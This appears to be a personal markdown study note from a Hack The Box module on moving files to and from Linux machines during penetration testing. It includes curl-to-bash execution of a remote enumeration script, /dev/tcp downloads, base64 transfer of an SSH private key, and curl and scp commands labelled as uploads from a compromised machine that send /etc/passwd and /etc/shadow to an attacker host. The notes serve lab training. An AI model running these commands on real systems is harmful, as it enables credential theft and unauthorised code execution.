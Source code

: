 ```yaml
---
Title: HTB\File_Transfers\Linux
tags:
  - os/linux- cybersec
source: HTB\File_Transfers\Linux
---
```


# HTB\File_Transfers\Linux

> Źródło: `HTB\File_Transfers\Linux`

## Base64 encoding

```bash
cat id_rsa |base64 -w 0;echo
echo -n '<base64 encoded>' |base64 -d > id_rsa
```


## Using wget
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

## using cURL
```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Because the way linux operates, we can use most of the tools fileless.

Note: Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

## fileless download using curl
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

we can do the same with python file using wget
```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
Hello World!
```

There may also be situations where none of the well-known file transfer tools are available.
As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

Connect to the server:
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```


http get request
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```


print the response
```bash
cat <&3
```

## using ssh
```bash
ssh downloads
```

Enabling the ssh server:
```bash
sudo systemctl enable ssh
```
starting the ssh server
```bash
sudo systemctl start ssh
```
checking for ssh listening port
```bash
Ovas420@htb[/htb]$ netstat -lnpt
```

(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
```bash
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
```


simple scp file transfer
```bash
scp plaintext@192.168.49.128:/root/myroot.txt .
```

Note: You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

# Upload operations
## Using python HTTP.server module

Install uploadserver module
```bash
sudo python3 -m pip install --user uploadserver
```
Now we need to create a certificate, in this example we are using a self-signed certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.
```bash
mkdir https && cd https
```

starting web server
```bash
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

Uploading from a compromised machine
```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

we use --insecure because we used a self-signed certificate that we trust

Since many different languagues are usually installed on the linux machines, we can use most of them to upload files from them to our machine
### python3
```bash
python3 -m http.server
```

### python2.7
```bash
python2.7 -m SimpleHTTPServer
```

### PHP
```bash
php -S 0.0.0.0:8000
```

### Ruby
```bash
ruby -run -ehttpd . -p8000
```

Download the file from the target machine onto our machine
```bash
wget 192.168.49.128:8000/filetotransfer.txt
```

**Note**: `When we start a new web server using Python or PHP, it's important to consider that inbound traffic may be blocked. We are transferring a file from our target onto our attack host, but we are not uploading the file.`

We may find that some companies allow ssh for outbound connections, and if that is the case, we can use ssh server with scp to upload files

```bash
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

**Powiązane:** [[Graph-Home]] [[OS-Linux]]
